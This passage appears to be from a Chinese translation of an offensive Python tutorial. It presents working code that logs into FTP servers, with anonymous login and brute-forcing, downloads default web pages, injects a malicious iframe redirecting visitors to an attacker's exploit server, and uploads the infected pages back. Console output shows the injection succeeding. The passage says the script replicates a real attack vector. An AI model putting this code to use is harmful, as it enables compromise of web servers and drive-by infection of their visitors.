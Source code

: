 接下来，我们必须添加一个重定向从被感染的主机到我们的恶意的服务器。为此，我们可以从攻陷的服务器下载默认的 WEB 页面，注入一个`iframe`，然后上传恶意的页面到服务器上。看看这个`injectPage()`函数，它接受一个 FTP 连接，一个页面名和一个重定向的`iframe`的字符串作为输入，然后下载页面作为临时副本，接下来，添加重定向的`iframe`代码到临时文件中。最后，该函数上传这个被感染的页面到服务器中。

```
# coding=UTF-8

import ftplib

def injectPage(ftp, page, redirect):
    f = open(page + '.tmp', 'w')
    ftp.retrlines('RETR ' + page, f.write)
    print '[+] Downloaded Page: ' + page
    f.write(redirect)
    f.close()
    print '[+] Injected Malicious IFrame on: ' + page
    ftp.storlines('STOR ' + page, open(page + '.tmp'))
    print '[+] Uploaded Injected Page: ' + page

host = '192.168.95.179'
userName = 'guest'
passWord = 'guest'
ftp = ftplib.FTP(host)
ftp.login(userName, passWord)
redirect = '<iframe src="http://10.10.10.112:8080/exploit"></iframe>'
injectPage(ftp, 'index.html', redirect) 
```

运行我们的代码，我们可以看到它下载`index.html`页面然后注入我们的恶意代码到里面。

```
attacker# python injectPage.py
[+] Downloaded Page: index.html
[+] Injected Malicious IFrame on: index.html
[+] Uploaded Injected Page: index.html 
```

## 将攻击整合在一起

现在我们就整合所有的攻击到`attack()`函数中。`attack()`函数接收一个主机名，用户名，密码和定位地址为输入。这个函数首先利用用户凭证登陆 FTP 服务器，接下来我们寻找默认页面，下载每一个页面并且添加恶意的重定向代码，然后上传修改后的页面到 FTP 服务器中。

```
def attack(username, password, tgtHost, redirect):
    ftp = ftplib.FTP(tgtHost)
    ftp.login(username, password)
    defPages = returnDefault(ftp)
    for defPage in defPages:
        injectPage(ftp, defPage, redirect) 
```

添加一些选项参数，我们包装整合我们的脚本。你将注意到我们首先尝试匿名登录 FTP 服务器，如果失败，我们将通过暴力破解得到服务器的认证。虽然只有近百行代码，但这个攻击完全可以复制 k985ytv 的原始的攻击向量。

```
# coding=UTF-8

import ftplib
import optparse
import time

def anonLogin(hostname):
    try:
        ftp = ftplib.FTP(hostname)
        ftp.login('anonymous', 'me@your.com')
        print('\n[*] ' + str(hostname) + ' FTP Anonymous Logon Succeeded.')
        ftp.quit()
```
